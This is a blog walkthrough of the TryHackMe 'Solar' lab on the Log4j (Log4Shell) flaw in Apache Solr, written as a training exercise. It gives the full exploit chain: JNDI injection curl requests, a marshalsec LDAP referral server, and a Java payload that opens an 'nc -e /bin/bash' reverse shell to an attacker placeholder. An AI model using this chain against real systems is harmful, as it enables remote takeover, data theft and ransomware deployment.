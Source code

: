 ```yaml
---
layout: post
title:  "LOG4J-Solr-THM-Walkthrough"
date:   2022-01-04 17:03:35 +0530
categories: jekyll update
---
```


The room for practicing Log4j can be found here: https://tryhackme.com/room/solar

{% highlight ruby %}Phase 1: Reconnaissance{% endhighlight %}

We explore the web interface at http://machine_ip[:]8983; we explore and look around for the log files, to see which path or URL endpoint triggers the logging. 

We find that {% highlight ruby %}“solr/admin/cores/”{% endhighlight %} is where a user can control the data entry point. 
 
You may already know the general payload to abuse this log4j vulnerability.

The format of the usual syntax that takes advantage of this looks like so: 
                ${jndi: ldap://ATTACKERCONTROLLEDHOST} 

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

Notice the ldap:// schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For now, know that the target will in fact make a connection to an external location. This is indicated by the 
ATTACKERCONTROLLEDHOST placeholder in the above syntax. You, acting as the attacker in this scenario, can host a simple listener to view this connection. 
 
We already discovered that we could supply parameter to the /solr/admin/cores URL to insert our JNDI Syntax. 

Other locations you might supply this JNDI syntax: 
•	Input boxes, user and password login forms, data entry points within applications 
•	HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers 
•	Any place for user-supplied data 

{% highlight ruby %}Phase 2: Testing{% endhighlight %} 
To prepare your environment for testing the vulnerability and receiving a connection 

1.	We view our own IP address information: 
a.	“ip addr show” OR “ip -br -c a” 
  
2.	We prepare a netcat listener on port 9999  
a.	“nc -nlvp 9999” 
  
3.	Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility. 

{% highlight ruby %}“curl ‘http://machine_ip[:]8983/solr/admin/cores?foo$\{jndi:ldap://Your.IP.Address:9999\}’{% endhighlight %}  
  
Note, due to the use of the $ dollar-sign character in your syntax, you must ensure you wrap the URL within single-quotes, so bash (your command-line shell) does not interpret it as a variable. 
Additionally, you must escape out the { } curly braces with a single backslash character, so those are not misrepresented in the curl command arguments. 

4.	Verify you have received a connection by seeing the following message in your netcat listener: 
a.	“Connection received from MACHINE_IP” 
  
{% highlight ruby %}Phase 3: Preparation and Payload Creation{% endhighlight %} 
At this point, you have verified the target is in fact vulnerable by seeing this connection caught in your netcat listener. However, it made an LDAP request... so all your netcat listener may have seen was non-printable characters (strange looking bytes). We can now build upon this foundation to respond with a real LDAP Handler. We will utilize an open-source and public utility to stage an "LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so: 
{% highlight ruby %}
1.	${jndi:ldap://attackerserver:1389/Resource} -> reaches out to our LDAP Referral Server 
2.	LDAP Referral Server springboards the request to a secondary http://attackerserver/resource 
3.	The victim retrieves and executes the code present in http://attackerserver/resource 
{% endhighlight %} 

This means we will need an HTTP server, which we could simply host with any of the following options (serving on port 8000): 
{% highlight ruby %}
	• 	python3 -m http.server 8000 
{% endhighlight %}  

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec 

Ultimately, this needs to run Java. Reviewing the README for this utility, it suggests using Java 8. (You may or may not have success using a different version, but to "play by the rules," we will match the same version of Java used on the target virtual machine) 

You can find a mirror of different Java versions to run on Linux at this location. http://mirrors.rootpei.com/jdk/ and we install Java 8 locally. 
Now we install Marshalsec utility from github. 
{% highlight ruby %}
1. Clone the repository in any file system location of your choice (I would suggest /tmp or /opt): 
a. git clone https://github.com/mbechler/marshalsec 

2.	Download and change directories into this new folder (cd marshalsec) We must build marshalsec with the Java builder maven. If you do not yet have maven on your system, you can install it through your package manager: 'sudo apt install maven'

3.	Now, we install the maven packages:  'mvn clean package -DskipTests' 

4.	With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server (which we will prepare in just a moment). The syntax to start the LDAP server is as follows: 
a. java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit” 
{% endhighlight %}

Adjust the IP address for your attacking machine as needed. Note that we supplied the HTTP port listening on 8000. 

You will see an output on your window similar to below: 
{% highlight ruby %}"Listening on 0.0.0.0:1389"{% endhighlight %}
 
Now that our LDAP server is ready and waiting, we can open a second terminal window to prepare our final payload and secondary HTTP server. 

Ultimately, the log4j vulnerability will execute arbitrary code that you craft within the Java programming language. 

Create and move into a new directory where you might host this payload. First, create your payload in a text editor of your choice (mousepad, nano, vim, Sublime Text, VS Code etc), with the specific name Exploit.java: 

{% highlight ruby %}
public class Exploit {static {try { java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999"); } catch (Exception e) {e.printStackTrace(); 
}}} 
{% endhighlight %}

Compile your payload with {% highlight ruby %}javac Exploit.java -source 8 -target 8{% endhighlight %} and verify it succeeded by running the {% highlight ruby %}'ls'{% endhighlight %} command and finding a newly created {% highlight ruby %}Exploit.class{% endhighlight %} file 
  
With your payload created and compiled, you can now host it by spinning up a temporary HTTP server.  {% highlight ruby %}Python3 -m http.server 8000{% endhighlight %}
  
{% highlight ruby %}Phase 4: Exploitation{% endhighlight %}

Your payload is created and compiled, it is hosted with an HTTP server in one terminal, your LDAP referral server is up and waiting in another terminal -- next prepare a netcat listener to catch your reverse shell in yet another new terminal window: nc -nlvp 9999 
  
Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit: 
{% highlight ruby %}
curl 
'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:138 9/Exploit\}' 
{% endhighlight %}

You have now received initial access and command-and-control on an Apache Solr instance. This is just one example of many, many vulnerable applications affected by this log4j vulnerability.  
  
At this point, a threat actor can realistically do whatever they would like with the victim -- whether it be privilege escalation, exfiltration, install persistence, perform lateral movement or any other postexploitation -- potentially dropping cryptocurrency miners, remote access trojans, beacons and implants or even deploying ransomware.  
All it took was a single string of text, and a little bit of set up with freely available tooling. 

This was precisely why the Internet has been on fire during the weekend of December 9th, 2021.  

